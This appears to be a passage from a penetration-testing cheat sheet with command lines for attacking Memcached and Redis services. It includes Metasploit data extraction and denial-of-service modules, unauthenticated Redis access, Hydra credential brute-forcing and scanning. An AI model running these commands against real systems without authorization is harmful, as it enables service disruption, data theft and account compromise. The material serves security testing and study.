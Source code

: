 ```bash
msfconsole -qx "use auxiliary/gather/memcached_extractor;set RHOSTS $TARGET;run;exit"
```

{% hint style="info" %}
Denial of Service
{% endhint %}

```bash
msfconsole -qx "use auxiliary/dos/misc/memcached;set RHOSTS $TARGET;run;exit"
```

### Redis

#### [Nmap](https://nmap.org/nsedoc/scripts/redis-info.html)

{% hint style="info" %}
Identify Redis
{% endhint %}

```bash
nmap -p 6379 -sS -sV --mtu 5000 --script redis-info $TARGET
```

#### [redis-cli](https://redis.io/docs/latest/develop/tools/cli/)

{% hint style="info" %}
Unauthorized Access
{% endhint %}

```bash
redis-cli -h $TARGET -p 6379
```

#### [Hydra](https://github.com/vanhauser-thc/thc-hydra)

{% hint style="info" %}
Brute Force Creds
{% endhint %}

```bash
hydra -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt \
      -s 6379 $TARGET redis
```

#### [Nuclei](https://github.com/projectdiscovery/nuclei-templates/blob/main/javascript/default-logins/redis-default-logins.yaml)

{% hint style="info" %}
Scan Misconf with Nuclei
{% endhint %}

```bash
nuclei -tags redis -u $TARGET:6379
```
